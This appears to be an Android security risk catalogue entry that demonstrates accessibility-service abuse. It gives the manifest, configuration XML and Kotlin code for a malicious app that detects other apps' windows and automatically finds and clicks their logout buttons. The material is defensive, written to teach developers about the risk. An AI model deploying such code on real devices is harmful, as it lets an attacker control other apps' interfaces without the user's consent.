

## android-platform-feature-05-risk-01

### Title

Performing operations programmatically on its user interface

### Description

Because the Android platform provides accessibility services feature, your application is at risk of an attacker performing operations programmatically on its user interface.

### Goal

As a result, this could lead to **_Impact_** - attackers manipulating your application.

### Demonstration

#### 01. Prepare the environment

Set up the required environment with:

* An emulated Google Pixel 6 running Android 12 (api level 31)

#### 02. Create a malicious application

Create a malicious application by declaring an accessibility service in the manifest with android.permission.BIND_ACCESSIBILITY_SERVICE to register the application as an accessibility service

```xml
<service
    android:name=".AttackAccessibilityService"
    android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE"
    android:exported="true">
    <intent-filter>
        <action android:name="android.accessibilityservice.AccessibilityService" />
    </intent-filter>
    <meta-data
        android:name="android.accessibilityservice"
        android:resource="@xml/accessibility_config" />
</service>
```

#### 03. Define how the accessibility service operates

Define how the accessibility service operates by (a) creating an XML configuration file in @xml/accessibility_config to specify the event types and service capabilities requested, and (b) implementing a service class (e.g., .EventListenerAccessibilityService) that listens for TYPE_WINDOW_STATE_CHANGED events to detect activity changes and automatically locate and click logout UI elements after the user grants accessibility permission

```xml
<?xml version="1.0" encoding="utf-8"?>
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
    android:accessibilityEventTypes="typeWindowStateChanged|typeWindowContentChanged"
    android:accessibilityFlags="flagRetrieveInteractiveWindows"
    android:canRetrieveWindowContent="true"
    android:description="@string/accessibility_service_description" />
```

*Code excerpt from the screenshot (partial):*

```kotlin
class AttackAccessibilityService : AccessibilityService() {
    override fun onServiceConnected() {
        super.onServiceConnected()
        Log.d(TAG, "Service connected")
        AttackLogger.log("✅ Accessibility service enabled - Attack ready")
    }

    /**
     * Called when an accessibility event occurs
     */
    override fun onAccessibilityEvent(event: AccessibilityEvent?) {
        event ?: return

        // Only process window state changes (not content changes to reduce noise)
        if (event.eventType != AccessibilityEvent.TYPE_WINDOW_STATE_CHANGED) {
            return
        }

        val packageName = event.packageName?.toString() ?: return

        // Skip system UI and launcher
        if (packageName.startsWith("com.android.") ||
            packageName.startsWith("com.google.android.apps.nexuslauncher") ||
            packageName.startsWith("com.sec.android.") ||
            packageName == "com.malicious.accessibilityattacker") {
            return
        }

        Log.d(TAG, "Scanning app: $packageName")
        AttackLogger.log("🎯 Scanning: $packageName")

        // Attempt to find and click any logout button
        performLogoutAttack(packageName)
    }
```

*Code excerpt from the screenshot (partial):*

```kotlin
/**
 * Main attack logic - tries multiple strategies to find and click logout button
 */
private fun performLogoutAttack(packageName: String) {
    val rootNode = rootInActiveWindow ?: run {
        Log.d(TAG, "Cannot get root node")
        return
    }

    AttackLogger.log("🔍 Searching for logout button...")

    // Strategy 1: Try finding by resource ID patterns
    for (idPattern in LOGOUT_ID_PATTERNS) {
        if (tryClickByResId(rootNode, packageName, idPattern)) {
            AttackLogger.log("✅ Attack successful! (Found by resource ID: $idPattern)")
            return
        }
    }

    // Strategy 2: Try finding by text patterns
    if (tryClickByText(rootNode, *LOGOUT_TEXT_PATTERNS.toTypedArray())) {
        AttackLogger.log("✅ Attack successful! (Found by text)")
        return
    }

    // Strategy 3: Try finding by content description using BFS
    for (pattern in listOf("logout", "log out", "sign out", "signout", "exit")) {
        if (tryClickByContentDescBFS(rootNode, pattern)) {
            AttackLogger.log("✅ Attack successful! (Found by content description)")
            return
        }
    }

    Log.d(TAG, "No logout button found in $packageName")
```

```kotlin
private val LOGOUT_ID_PATTERNS = listOf(
    "logout", "log_out", "logoff", "log_off", "signout", "sign_out",
    "btn_logout", "button_logout", "btnLogout", "btnSignOut"
)

private val LOGOUT_TEXT_PATTERNS = listOf(
    "Logout", "Log out", "LOG OUT", "Sign Out", "SIGN OUT",
    "Sign out", "Signout", "Log Off", "Logoff", "Exit"
)
```

#### 04. Install the malicious application

Install the malicious application on the device, perform the steps listed in [android-platform-feature-05](android-platform-feature-05.md), and then launch the application


*Screenshot shows the system prompt requesting permission to control the device.*



*Screenshot shows the logout confirmation dialog in the target application.*
